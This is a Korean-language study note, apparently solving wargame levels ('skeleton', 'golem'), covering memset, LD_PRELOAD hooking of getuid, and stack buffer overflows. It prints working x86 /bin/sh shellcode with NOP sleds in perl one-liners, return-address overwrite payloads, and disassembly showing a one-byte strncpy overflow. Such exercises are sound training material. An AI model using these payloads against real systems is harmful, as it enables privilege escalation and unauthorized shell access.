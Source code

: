 memset : dest가 가리키는 메모리를 c값으로 count 만큼 채운다.
void *memset ( void *dest, int c, size_t count );
Parameters
dest : 채울 대상이 되는 메모리
c : 메모리에 채울 값, int형이지만 1바이트(char)로 인식
count : c값을 대상 메모리에 채울 개수

어떻게??

<풀이방법>
LD_PRELOAD라는 환경변수를 임의로 만들어줌.(기본적으로 들어가지는 않음)
cat maps
40..으로 시작되는 주소에 /lib/ld./xxxx.so라는 것이 있음
원래 함수보다 먼저 내가 함수를 로드 시켜놓으면 내가 올려놓은 함수가 실행됨.
(후킹이라고 함)
uid_t get_uid
#include <unistd.h>
#include <sys/types.h>
uid_t getuid(){
return 9999;
}
gcc -o hook.so hook.c --shared -fPIC
export LD_PRELOAD=/home/skeleton/hook.so
##환경변수 지우는법 unset LD_PRELOAD
env | grep LD_PRELOAD
이렇게 해서 #>id 해 보면 
LD_PRELOAD=/home/skeleton/hook.so 가 보임.
$(perl -e 'print "\x90"x100000 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
mkdir -p $(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
export LD_PRELOAD=./$(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../hook.so
./$(perl -e 'print "aaaa" . "\x90"x200 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')/../../../aa
r $(perl -e 'print "a"x44 . "\x0b\xf3\xff\xbf"')
0xbffff30b:
./golem $(perl -e 'print "a"x44 . "\x2b\xf4\xff\xbf"')
      
ebp-3000정도 부터 x/s로 찾아보다보면 LD_PRELOAD에 올려놓은 내용이 보임.

(12) LEVEL12: golem / cup of coffee
problem_child라는 함수가 있음.
-이 함수 내에는 strncpy가 있음(src가 dest보다 
strncpy strcpy보다 작은 수 복사.(뒤에 null붙음)

<main>
0x804846c <main>:       push   %ebp 0x804846d <main+1>:     mov    %ebp,%esp 0x804846f <main+3>:     cmp    DWORD PTR [%ebp+8],1 0x8048473 <main+7>:     jg     0x8048490 <main+36> 0x8048475 <main+9>:     push   0x8048504 0x804847a <main+14>:    call   0x8048354 <printf> 0x804847f <main+19>:    add    %esp,4 0x8048482 <main+22>:    push   0 0x8048484 <main+24>:    call   0x8048364 <exit> 0x8048489 <main+29>:    add    %esp,4
0x804848c <main+32>:    lea    %esi,[%esi*1] 0x8048490 <main+36>:    mov    %eax,DWORD PTR [%ebp+12] 0x8048493 <main+39>:    add    %eax,4 0x8048496 <main+42>:    mov    %edx,DWORD PTR [%eax] 0x8048498 <main+44>:    push   %edx 0x8048499 <main+45>:    call   0x8048440 <problem_child> 0x804849e <main+50>:    add    %esp,4 0x80484a1 <main+53>:    leave 0x80484a2 <main+54>:    ret
<problem_child>
0x8048440 <problem_child>:      push   %ebp 0x8048441 <problem_child+1>:    mov    %ebp,%esp 0x8048443 <problem_child+3>:    sub    %esp,40 0x8048446 <problem_child+6>:    push   41 0x8048448 <problem_child+8>:    mov    %eax,DWORD PTR [%ebp+8] 0x804844b <problem_child+11>:   push   %eax 0x804844c <problem_child+12>:   lea    %eax,[%ebp-40] 0x804844f <problem_child+15>:   push   %eax 0x8048450 <problem_child+16>:   call   0x8048374 <strncpy> 0x8048455 <problem_child+21>:   add    %esp,12 0x8048458 <problem_child+24>:   lea    %eax,[%ebp-40] 0x804845b <problem_child+27>:   push   %eax 0x804845c <problem_child+28>:   push   0x8048500 0x8048461 <problem_child+33>:   call   0x8048354 <printf> 0x8048466 <problem_child+38>:   add    %esp,8 0x8048469 <problem_child+41>:   leave 0x804846a <problem_child+42>:   ret 0x804846b <problem_child+43>:   nop